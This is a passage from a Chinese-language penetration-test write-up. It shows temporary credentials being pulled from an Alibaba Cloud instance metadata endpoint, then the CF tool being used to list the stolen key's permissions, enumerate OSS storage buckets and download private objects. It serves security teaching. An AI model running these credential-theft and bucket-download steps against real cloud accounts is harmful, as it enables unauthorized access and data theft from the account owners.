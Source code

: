 我们一步步打开 `ram/`目录，在 http://100.100.100.200/latest/meta-data/ram/security-credentials/laravel-test-role 下找到了临时访问凭证。

<img width="1000" src="/img/1657635047.png">

不同于传统的打点，云环境的打点在我看来，除了传统打点的类型外，拿到云服务的 Access Key 也应该可以被称之为打点，那么在打到点后，接下来就可以开始内网横向了。

## 0x02 云上内网横向，也得细心呀

当我们拿到临时访问凭证后，首先要做的就是得知道这个凭证具备哪些权限。

我们先把凭证配置到 CF 里，CF 下载地址：https://github.com/teamssix/cf/releases

```bash
cf configure
```

<img width="800" src="/img/1657635453.png">

查看当前凭证的权限

```bash
cf ls permissions
```

<img width="800" src="/img/1657640981.png">

可以看到当前权限具有 OSS 的全部权限，并且可以使用 CF 的「列出 OSS 资源」以及「下载 OSS 资源」的功能。

这里先列出 OSS 资源看看

```bash
cf oss ls
```

<img width="1000" src="/img/1657643500.png">

可以看到在该凭证下有四个存储桶，一个是公开的，三个是私有的。

查看一下存储桶里有哪些文件

```bash
cf oss ls -b bucketName
```

<img width="1000" src="/img/1657643569.png">

利用 CF 下载文件，如果想下载全部对象，则不指定 `-k`参数即可。

```bash
cf oss get -b bucketName -k objectKey
```

<img width="1000" src="/img/1657645817.png">

大概翻了一下存储桶里的文件，在公有存储桶里大部分是图片，私有存储桶里有几十个压缩包文件和大量图片等等，这几百张图片里只发现了几张有敏感信息的图片，整体来说价值不大。

后来过了一会儿还是另外一位师傅在私有存储桶里一个个的翻文件，最后在几十个压缩包里终于找到了一个有高价值的配置文件，于是事情开始出现了转机，不得不说，还是得细心啊。

